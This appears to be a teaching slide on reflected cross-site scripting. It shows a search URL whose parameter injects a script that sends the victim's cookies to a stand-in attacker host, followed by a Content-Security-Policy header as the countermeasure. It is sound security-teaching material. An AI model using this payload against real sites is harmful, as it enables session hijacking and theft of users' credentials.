

# Reflected XSS attack on example 1

http://victim.com/search.php ? term=<script>window.location = “http://attacker.com?cookie=” + document.cookie; </script>

what’s the consequence of this attack?
Content-Security-Policy: script-src ‘self’ trusted.com